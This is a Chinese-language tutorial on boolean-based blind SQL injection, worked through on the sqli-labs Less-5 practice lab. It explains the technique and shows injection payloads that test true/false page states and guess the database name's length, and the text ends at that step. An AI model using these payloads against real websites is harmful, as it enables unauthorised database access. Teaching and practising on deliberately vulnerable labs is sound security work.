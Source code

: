 ### 基于布尔的盲注（布尔盲注）
参考文章[链接](https://blog.csdn.net/qq_44159028/article/details/114325805?sharetype=blog&shareId=114325805&sharerefer=APP&sharesource=2301_82267803&sharefrom=qq)

<font style="color:#601BDE;">布尔盲注</font><font style="color:rgb(77, 77, 77);">，即在页面没有错误回显时完成的注入攻击。此时我们输入的语句让页面呈现出两种状态，相当于true和false，根据这两种状态可以判断我们输入的语句是否查询成功。</font>

<font style="color:rgb(77, 77, 77);">我们构造判断语句，根据页面是否回显证实猜想。一般用到的函数ascii() 、substr() 、length()，exists()、concat()等。</font>

<font style="color:rgb(77, 77, 77);">函数的作用可以参考这篇</font>[<font style="color:rgb(77, 77, 77);">链接</font>](https://blog.csdn.net/m0_75178803/article/details/133968302?ops_request_misc=%257B%2522request%255Fid%2522%253A%25226a0685b97a9b0b7363f081d23ae7c866%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=6a0685b97a9b0b7363f081d23ae7c866&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-4-133968302-null-null.142%5Ev100%5Epc_search_result_base7&utm_term=sql%E6%B3%A8%E5%85%A5%E5%B8%83%E5%B0%94%E7%9B%B2%E6%B3%A8%E6%89%80%E7%94%A8%E7%9A%84%E5%87%BD%E6%95%B0&spm=1018.2226.3001.4187)

<font style="color:rgb(77, 77, 77);">大致步骤为</font>

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732080195795-0440cd74-c67d-40d3-8034-a1a83e736af3.png)

#### 注入方法
这里以靶场<font style="color:rgb(252, 85, 49) !important;">sqli-labs</font><font style="color:rgb(79, 79, 79);">>>less-5为例子大概叙述布尔盲注</font>

<font style="color:rgb(79, 79, 79);">注：由于布尔盲注工作量很大  不支持手搓 不管是在做题还是实战中都会配合sql注入自动化工具使用</font>

<font style="color:rgb(79, 79, 79);">       </font><font style="color:#601BDE;">这里只大概展示bool盲注的原理(相当于对着答案来做题 而且省略一些机械重复的步骤)</font>

##### <font style="color:#000000;">判断页面的true和fasle</font>
输入payload

```sql
http://710deee6-f4db-4caa-bb69-4456a943ed13.node5.buuoj.cn/Less-5/?id=1' and 1=1--+
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732081367656-7a24a7ab-cd4b-46f1-838c-e2d088e52ad5.png)

接着输入payload

```sql
http://710deee6-f4db-4caa-bb69-4456a943ed13.node5.buuoj.cn/Less-5/?id=1' and 1=2--+
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732081399310-ca2d265a-71f2-4955-befe-8b3f78a2ea17.png)

所以判断当页面出现  <font style="color:#601BDE;">You are in............. </font><font style="color:#000000;"> 时为true</font>

##### <font style="color:rgb(79, 79, 79);">猜测当前数据库长度：</font>
```sql
http://127.0.0.1/sqlilabs/Less-5/?id=1' and length(database())=8 %23
```

